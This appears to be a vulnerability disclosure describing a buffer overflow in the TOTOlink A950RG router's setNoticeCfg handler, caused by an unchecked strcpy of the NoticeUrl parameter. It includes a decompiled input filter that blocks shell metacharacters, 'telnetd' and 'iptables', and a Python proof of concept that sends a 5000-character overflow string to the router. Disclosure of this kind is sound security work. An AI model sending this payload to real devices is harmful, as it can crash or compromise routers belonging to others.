




# TARGET
Product: TOTOlink A950RG
Fimware: V4.1.2cu.5204_B20210112

# BUG TYPE
Buffer Overflow
# Abstract
The TOTOlink A950RG router device contains a buffer overflow vulnerability in its firmware version V4.1.2cu.5204_B20210112. The vulnerability arises from the improper input validation of the `NoticeUrl` parameter in the `setNoticeCfg` interface of `/lib/cste_modules/system.so`. A remote attacker could exploit this flaw to execute arbitrary code on the system or cause a denial of service.
# Details

By analyzing the `setNoticeCfg` function in `/lib/cste_modules/system.so` using IDA, we find that the entry address of the function is `0x004CCC`. 



At line 45, the function:

1. Extracts a parameter named `NoticeUrl` from the web request
2. Passes this URL to the `GetDomainName` function to extract the domain portion
3. Stores the extracted domain in the `v36` buffer

A buffer overflow vulnerability exists in the `GetDomainName` function. Specifically, variable `a1` is copied to `a2` using `strcpy` without any filtering or length verification. The function doesn't check whether `a2` has sufficient space to store the copied string. Further analysis confirms that the controllable `NoticeUrl` parameter can trigger this buffer overflow vulnerability. In the `setNoticeCfg` function, `v7` corresponds to `a1` and `v36` corresponds to `a2`. If the string pointed to by `v7` exceeds the size of the `v36` buffer, a buffer overflow can occur, potentially overwriting adjacent memory regions and causing undefined behavior.



Although the `setNoticeCfg` function includes a `Validity_check` function at line 106, disassembly reveals that this check only looks for specific dangerous characters but does not verify string length.




The `Validity_check` function details:

```c
BOOL __fastcall Validity_check(int a1)
{
  BOOL result; // $v0
  if ( strchr(a1, ';')
    || strstr(a1, ".sh")
    || strstr(a1, "iptables")
    || strstr(a1, "telnetd")
    || strchr(a1, '&')
    || strchr(a1, '|')
    || strchr(a1, '`') )
  {
    result = 1;
  }
  else
  {
    result = strchr(a1, '$') != 0;
  }
  return result;
}
```

Attackers could exploit this buffer overflow vulnerability by sending API requests, using malicious configuration files, or crafting HTTP requests with excessively long "notice" strings, potentially causing program crashes or more severe consequences.

# POC

```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0",
    "Accept": "*/*",
    "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/adm/notice.asp",
    "Priority": "u=0",
    "Cookie": "SESSION_ID=2:1743870902:2"
    
}

payload = {
    "topicurl": "setting/setNoticeCfg",
    "NoticeEnabled": "1",
    "NoticeUrl": "=http://www.111.com"+"A"*5000,
    "BtnName": "Click here to continue",
    "WhiteListUrl1": "2",
    "WhiteListUrl2": "2",
    "WhiteListUrl3": "4",
    "IpFrom": "1",
    "IpTo": "51",
    "NoticeTimeoutVal": "120"
}

import json
data = json.dumps(payload)

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Body:", response.text)
```


